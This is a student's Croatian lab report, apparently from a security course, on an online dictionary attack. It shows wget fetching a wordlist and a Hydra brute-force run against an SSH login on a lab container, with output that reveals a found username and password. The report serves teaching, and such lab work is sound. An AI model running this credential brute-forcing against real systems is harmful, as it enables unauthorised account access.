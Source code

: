 # Peta i šesta laboratorijska vježba

## **Peta vježba**

Kroz ovu vježbi smo radili online password guessing attack. Probali smo koristeći unaprijed definirani dictionary pronaći lozinku iz njega koja se podudara s mojim korisničkim imenom na Docker containeru. S obzirom da smo radili online napad aktivno smo kontaktirali server i pokušavali se prijaviti direktno na određenu IP adresu.

```bash
Microsoft Windows [Version 10.0.19043.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Users\A507>wsl
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ wget -r -nH -np --reject "index.html*" http://a507-server.locary/g3/dictionar
--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/
Resolving a507-server.local (a507-server.local)... 10.0.1.172, fe80::aaa1:59ff:fe69:5278
Connecting to a507-server.local (a507-server.local)|10.0.1.172|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘dictionary/g3/index.html.tmp’

dictionary/g3/index.html.tmp      [ <=>                                              ]   4.59K  --.-KB/s    in 0s

2022-01-11 11:03:36 (259 MB/s) - ‘dictionary/g3/index.html.tmp’ saved [4700]

Loading robots.txt; please ignore errors.
--2022-01-11 11:03:36--  http://a507-server.local:8080/robots.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 404 Not Found
2022-01-11 11:03:36 ERROR 404: Not Found.

Removing dictionary/g3/index.html.tmp since it should be rejected.

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_offline.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 350546 (342K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_offline.txt’

dictionary/g3/dictionary_offl 100%[=================================================>] 342.33K  --.-KB/s    in 0.03s

2022-01-11 11:03:36 (11.7 MB/s) - ‘dictionary/g3/dictionary_offline.txt’ saved [350546/350546]

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_online.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 3346 (3.3K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_online.txt’

dictionary/g3/dictionary_onli 100%[=================================================>]   3.27K  --.-KB/s    in 0s

2022-01-11 11:03:36 (287 MB/s) - ‘dictionary/g3/dictionary_online.txt’ saved [3346/3346]

FINISHED --2022-01-11 11:03:36--
Total wall clock time: 0.09s
Downloaded: 3 files, 350K in 0.03s (12.0 MB/s)

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l jukic_marija -P dictionary/g3/dictionary_online.txt 10.0.15.0 -V -t
4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-01-11 11:05:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 478 login tries (l:1/p:478), ~120 tries per task
[DATA] attacking ssh://10.0.15.0:22/
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtal" - 1 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajpgz" - 2 of 478 [child 1] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtnj" - 3 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajplk" - 4 of 478 [child 3] (0/0)
....
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtlp" - 331 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtgz" - 332 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "cowona" - 333 of 478 [child 3] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "thened" - 334 of 478 [child 1] (0/0)
[22][ssh] host: 10.0.15.0   login: jukic_marija   password: thened
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-01-11 11:11:04
```

Uspjela sam pronaći lozinku koja je bila unutar dictionaryja koja se podudarala s lozinkom na docker containeru s mojim imenom. Nažalost statistika nije bila na mojoj strani, pa se moja lozinka nalazila na drugoj polovici dictionaryja pa je za pronalazak podudaranja trebalo malo više vremena.

S obzirom na ograničeno vrijeme nismo stigli napraviti offline password guessing attack.

## Šesta vježba

Kroz ovu vježbu smo učili kako upravljati korisničkim računima na linuxu, odnosno radili smo kontrolu pristupu.